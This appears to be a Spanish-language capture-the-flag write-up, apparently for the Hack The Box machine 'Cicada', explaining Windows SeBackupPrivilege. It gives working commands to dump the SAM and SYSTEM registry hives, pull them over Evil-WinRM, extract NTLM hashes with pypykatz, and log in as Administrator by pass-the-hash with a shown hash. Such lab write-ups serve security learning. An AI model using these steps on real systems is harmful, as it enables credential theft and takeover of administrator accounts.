


## **¿Qué es SeBackupPrivilege?**

SeBackupPrivilege es un privilegio de Windows que se utiliza para realizar copias de seguridad de archivos y directorios. Cuando un usuario o proceso tiene este privilegio, puede leer y escribir archivos y directorios sin necesidad de tener permisos de lectura o escritura en los mismos

## **Explotando este privilegio**

Ahora que ya sabemos de que trata este privilegio vamos a utilizar esto para nuestra ventaja. Para empezar, iremos al directorio C:\ y luego crearemos un directorio Temp. También podemos ir a un directorio con privilegios de lectura y escritura si el atacante quiere ser astuto. Luego cambiamos el directorio a Temp. Aquí usamos nuestro SeBackupPrivilege para leer el archivo SAM y guardar una copia del mismo. Del mismo modo, leemos el archivo SYSTEM y guardamos una copia del mismo.

```shell
cd c:\

mkdir Temp

reg save hklm\sam c:\Temp\sam

reg save hklm\system c:\Temp\system
```



Esto significa que ahora nuestro Directorio Temp debe tener un archivo SAM y un archivo SYSTEM. Evil-WinRM tiene una opcion que nos permite transferir los archivos de la maquina victima a nuestra maquina host, lo que haremos es descargar ambos archivos.

> **Fichero SAM (Security Accounts Manager):**
> El fichero SAM es un fichero de base de datos que almacena información sobre las cuentas de usuario y grupo del sistema

> **Fichero SYSTEM:**
> El fichero SYSTEM es un fichero de configuración que almacena información sobre la configuración del sistema operativo

```shell
download sam

download system
```



Ahora, podemos extraer los secretos desde el archivo SAM y SYSTEM usando pypykatz, un extractor de contraseñas y secretos de la memoria de Windows.

```bash
pypykatz registry --sam sam system
```

![!\[\[Pasted image 20241016221220.png\]\]](../assets/img/241016_22h12m14s_screenshot.png)

Tan pronto como el comando se ejecuta, podemos ver en la siguiente demostración que hemos extraído con éxito los hashes NTLM de la cuenta de administrador y otros usuarios también.

Ahora, podemos usar el Hash NTLM del usuario Administrator para obtener acceso a la máquina destino como usuario administrador. De nuevo utilizamos Evil-WinRM para hacer esto. 

```shell
evil-winrm -i cicada.htb -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'
```

![!\[\[Pasted image 20241016221500.png\]\]](../assets/img/241016_22h14m51s_screenshot.png)
